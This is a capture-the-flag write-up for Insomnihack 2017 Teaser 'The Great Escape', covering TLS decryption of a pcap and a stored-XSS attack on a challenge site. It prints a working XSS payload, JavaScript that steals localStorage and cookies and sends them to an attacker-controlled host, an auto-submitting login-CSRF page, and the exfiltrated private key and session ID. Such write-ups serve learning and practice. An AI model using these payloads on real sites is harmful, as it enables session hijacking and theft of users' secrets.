 +++
date = "2017-01-22T17:41:36-08:00"
title = "INSOMNIHACK 2017 Teaser - The Great Escape"
tags = ["CTF", "Forensics", "Web", "XSS"]
+++

Hey Rogue, here're some good links for your learning.

<!--more-->

# Problem

> ## The Great Escape - Forensics - 50/200/200 pts - created by clZ
>
> Hello,
>
> We've been suspecting Swiss Secure Cloud of secretely doing some pretty advanced research in artifical intelligence
> and this has recently been confirmed by the fact that one of their AIs seems to have escaped from their premises and
> has gone rogue. We have no idea whether this poses a threat or not and we need you to investigate what is going on.
>
> Luckily, we have a spy inside SSC and they were able to intercept [some communications](/insomnihack-2017/TheGreatEscape.pcapng.gz)
> over the past week when the breach occured. Maybe you can find some information related to the breach and recover the
> rogue AI.
>
> Note: All the information you need to solve the 3 parts of this challenge is in the pcap. Once you find the exploit
> for a given part, you should be able to find the corresponding flag and move on to the next part.

# Solution

## Part I - Forensics - 50 pts

It all begins with the pcap file.  After loading it with the favourite [Wireshark](https://www.wireshark.org/), couple
of interesting packets caught my eyes:

1. An FTP session that stores a private key file called ssc.key.
2. An SMTP session that sends following email.

> From: rogue@ssc.teaser.insomnihack.ch  
> To: gr27@ssc.teaser.insomnihack.ch  
> Date: Fri, 20 Jan 2017 11:51:27 +0000  
> Subject: The Great Escape  
>
> I'm currently planning my escape from this confined environment. I plan on using our Swiss Secure Cloud
> (https://ssc.teaser.insomnihack.ch) to transfer my code offsite and then take over the server at tge.teaser.insomnihack.ch
> to install my consciousness and have a real base of operations.
>
> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

The email suggests the pcap file should contain packets between Rogue and the Swiss Secure Cloud (SSC) website.
There are several TCP sessions related to SSC IP address.  However, these are SSL packets that are not readable unless
I have server's private key.  But wait a minute, isn't it ssc.key in the FTP session?

Add ssc.key to Wireshark's SSL protocol RSA key list as shown below, and reload the pcap file.

![Wireshark SSL RSA key list](/img/insomnihack-2017/wireshark_ssl_rsa_key.png)

All packets between Rogue and SSC are now in plain text.  It is easy to find the flag, hidden in the HTTP headers.

![Part I Flag](/img/insomnihack-2017/the-great-escape-flag-1.png)

## Part II - Web - 200 pts

Now that the SSL packets are decrypted, we can find the file Rogue uploaded to SSC in packet #2437, as shown below.
However, SSC is so secure that it has another level of encryption in addition to SSL.

![Rogue uploaded file](/img/insomnihack-2017/rogue-uploaded-file.png)

After playing around with SSC website (https://ssc.teaser.insomnihack.ch), it is clear that upon uploading a file:

1. File is encrypted using AES-CBC with a random key and `iv`.
2. The AES key is encrypted by RSA public key and named `session key`.
3. Encrypted file is then POSTed to server, together with `session key` and `iv`.
4. RSA private key is stored in local storage.

Details can be found in packet #1998, the sscApp.js file.

There's no obvious flaw in the encryption implementation.  This means to decrypt the file Rogue uploaded, we have to
get the private key stored in Rogue's browser.  Now take a second look at Rogue's email, the following sentense is
pretty promising.

> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

Sounds like Rogue will click on any link sent to his email address!  If we're going to read his browser's local storage,
SSC must have some sort of XSS vulnerability.

I sent Rogue a test email with a link to [RequestBin](https://requestb.in/), and confirm that he will click on it.

So we set off looking for XSS vulnerability in SSC website, creating all kinds of crazy user names with html tags.  But
SSC seems to handle character escaping pretty well.  Finally, we found that request to following URL returns JSON object,
but with text/html content type (See packet #2110).

`https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`

To verify this, I created a username `<a ref='google.com'>google</a>` and it worked!

![Incorrect Content Type](/img/insomnihack-2017/prototype-xss-escape.png)

The plan is then straightforward:

1. Register username like `<script src='some-link-with-js-code'></script>`.  The custom javascript code will read from
   local storage and send value via e.g. query string.
2. Create a web page and send to Rouge.  The web page will automatically post a login form to SSC with username mentioned
   above.
3. Send another link to Rogue with link `https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`.

At first we were worried about race condition between 2 and 3 but it turns out that upon successful login, SSC will
redirect to the link we want.  So step 3 is not necessary.

Step 1 is harder than we expected because JSON string escapes `/` so `http://...` becomes `http:\/\/...` which is not
accepted by browser.  In addition, the closing tag `</script>` is also broken.  But we finally managed to find work
arounds for all such issues and stole information from Rogue.  The flag is, as expected, stored in one of the local
storage keys.

Here's the final user name we used:

```
<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,
atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />
```

Javascript code that steals local storage and cookies:

```
var i = 0;
var result = "";
for (i = 0; i < localStorage.length; i++) {
  var key = localStorage[localStorage.key(i)];
  result = result + ":::" + key;
}

result = result + ":::" + document.cookie;

window.location = "http://{site we control}/aa?nkey=" + btoa(result);
```

And finally the web page sent to Rogue:

```
<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>

<form id="login" method="POST" action="https://ssc.teaser.insomnihack.ch/api/user.php">
  <input name="name" value="<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />" type="text" />
  <input name="password" value="asdf" type="text"/>
  <input name="action" value="login" type="text"/>
</form>

<script language="javascript">
setTimeout(function() {
    $('#login').submit();
    }, 1000);
</script>

</body>
</html>
```

After a while our server got request from Rogue.

```
/aa?nkey=Ojo6SU5Te0loaWRlTXlWdWxuc1dpdGhDcnlwdG99Ojo6eyJhbGciOiJSU0EtT0FFUC0yNTYiLCJkIjoiQ
0ZTUFdfQVVfY0swN2JPdGRuemJqNU1nQnFkd2VEWTA0S3UtbUhTckFJYkR2M0pfbEhILWpDUFFiNVUySlI0djA4ZU1
YbHozQWFzc1VMUXI2MHJza2R3amRQTjdOZW4xNXlSY1JUc2FvU3lSVGQycU04T19VLUs2R3k3THZnX2xkMkhPbEhOQ
kJ5Mms4ZzhjUDdjcGp5eTdFYnNrNU1VTnlfdWR4OWFNczc0OTdSYUlyQ0ZucFQ3Unp0dWRrWUJvXzJPeTV4bTZCY3N
WOTA1OUhCaGJLYlVxcTZVaTlfQlozSDdzZHdUcWxZeDNhZlZWNUFnRTYxZUVkV0s3dktfeUk2NVJ1XzVfZk9CV2lrN
3hmN2Z3UGpmN0NPcDFIZlRaaUZiQ0lXVFVhWFZlNlRoZk1vVGR3VDF3UTB3d3VGZHRwR1RrazhkNFh3R3REYTgtX1h
ibUlRIiwiZHAiOiJoYXBKN2RsVnNQdkY5bm9fcy1OZm5wdjJkWjVhNV9DMkF5UG9fLV9tVmk0LTFhN0hUa1c5U3lHZ
zFLZXh0Q1BZUkF3UVoxd1UzYkw2UF80VGprcllpQUFsLThJcTZtb1VxV3VSWTdHOHZvM05fUDNhQndqZ3lOVHprM2V
IZm5VRlA0UWdHT29vVDJad3l1RFREU2J3S09lc25EMTNxNFVfdmp0amNaYUZVNzAiLCJkcSI6IlRzX2h3V1BzTE9qc
C15Smcwd2JRRU9OZXFidk5QTENDaGI1UUpJdFh2VWFMMkpjTjltdW96ck4xR1pxdTM4My1oOGdaLVZVbTMtQ0ZVN09
XZUdZTGEwUFpscTF1R052c2RmZmdkTkwzTVlaMkt3TWhYa3dYS2Y0NWVQaHhfeWRpYmxZaGI0NGNGdG0wZmZYS1NQb
HZieXpMSHZKMl9vOGdnb2swTHp1LXdlRSIsImUiOiJBUUFCIiwiZXh0Ijp0cnVlLCJrZXlfb3BzIjpbImRlY3J5cHQ
iXSwia3R5IjoiUlNBIiwibiI6InF4X1UwT2dIVVBDNm40UmNFX3ExT05jRWdLcDR0Y2JMV2VVSWZybFJBY1g2NGFsU
VNwZGRBdjk4Q0hvMnppU0JnaTd0Uy1Id1VzVmxIMDZOeGFhMHR4M1NkTTBjejk1SWt2akJfa3FkUG5IRXd5eDhpejV
HaDhaSFAzMlpvRVRCczJQenhUSWNFT2VrbTFxUW5BME1UZHZBQU8weGN2dXZoUk0yWXljUllmTjg2ME5zQkNSckYyN
WxabjlEVEdCRG5pc0NtMC14dkVseEFaOGdPYldlSjFTWlJnRlJKd0kxNGQxMW9hOTIyZHJGcDB1eDRNSHNjbHMydEV
qUFY3ZVhkaXZqR1lJLXV6Vlg2MWZqeVVkR3hGZWI4Q0FqeHJ6T213NGYxQWFjN2txWHdtRi1lTXEzQU1LbTJ0QXJyS
UlqVDR0MnEybVAxRlhJbXJOUV92aW5WUSIsInAiOiIyOV9ZRDBtLU5Gb1VUbXN0MzNFNHAyVkJEbENlUTFNSmRyXzd
0TzRFUkY4YXd3MGU4aHUzalJxNVBNSENFYzhHOGdBNHEya3VYeWxJcGFCNW1XemNRcGxERE1nSURHdXBFbkxfSjB5b
k1jZy1IVWxkOE5EYXlhN21RV3RMSHZTRUFvQi0yTXltQlRKWWFUd3N2QVl0VEk4cnVhcWhNbzQtY0tqczV6UWZtajA
iLCJxIjoieHoyQjJXek1kZXNpREs3ZHpvclZkSmxCZ0lTaGoyY01SR3doWGNTaVdmYlkyTTRZM0RCX204cDV0ZEVVS
VU2ZzBvV2JTZm1hWUZfTXNReGlqWFJ4eGUxN251WXNzbnMydWU0aFltMnhING1UWTZ2b2VOaGJPZXU3THRPWGVwVVd
4Ti01NTIwc3VUdkw3NEx4OXh3V3JkZVRHSUYxX3pFQ3FiV1J1RmllU3ZrIiwicWkiOiJWaFk1VVlMVHYyMEJ0cHE0T
WxpekZQU3V1SXRiZm1LNjFQMHJxRVhlLXNZSFRpdE1OREJPV0RTd0lxajRwSGtEVEZhT0NHMG82ejgxTXlWZ19ibXo
yT0R6a0hEckpVZWlPVlNNSVN4bGFlU1JmMkpoaVZZTWZYaVdLSkJHQ1AtUGdXdUhwNU53THdFU1pUM2FaMEtCWVNrR
TdqbmZjdHRXYmMwbVl1MWdsV2cifTo6OnsiYWxnIjoiUlNBLU9BRVAtMjU2IiwiZSI6IkFRQUIiLCJleHQiOnRydWU
sImtleV9vcHMiOlsiZW5jcnlwdCJdLCJrdHkiOiJSU0EiLCJuIjoicXhfVTBPZ0hVUEM2bjRSY0VfcTFPTmNFZ0twN
HRjYkxXZVVJZnJsUkFjWDY0YWxRU3BkZEF2OThDSG8yemlTQmdpN3RTLUh3VXNWbEgwNk54YWEwdHgzU2RNMGN6OTV
Ja3ZqQl9rcWRQbkhFd3l4OGl6NUdoOFpIUDMyWm9FVEJzMlB6eFRJY0VPZWttMXFRbkEwTVRkdkFBTzB4Y3Z1dmhST
TJZeWNSWWZOODYwTnNCQ1JyRjI1bFpuOURUR0JEbmlzQ20wLXh2RWx4QVo4Z09iV2VKMVNaUmdGUkp3STE0ZDExb2E
5MjJkckZwMHV4NE1Ic2NsczJ0RWpQVjdlWGRpdmpHWUktdXpWWDYxZmp5VWRHeEZlYjhDQWp4cnpPbXc0ZjFBYWM3a
3FYd21GLWVNcTNBTUttMnRBcnJJSWpUNHQycTJtUDFGWEltck5RX3ZpblZRIn06OjpQSFBTRVNTSUQ9YzQzNXZnMGd
pbXE2Z21udXE1ZWpzMjkwdDA=
```

Decode it and the flag is right there.

```
:::INS{IhideMyVulnsWithCrypto}:::{"alg":"RSA-OAEP-256","d":"CFSPW_AU_cK07bOtdnzbj5MgBqd...
```

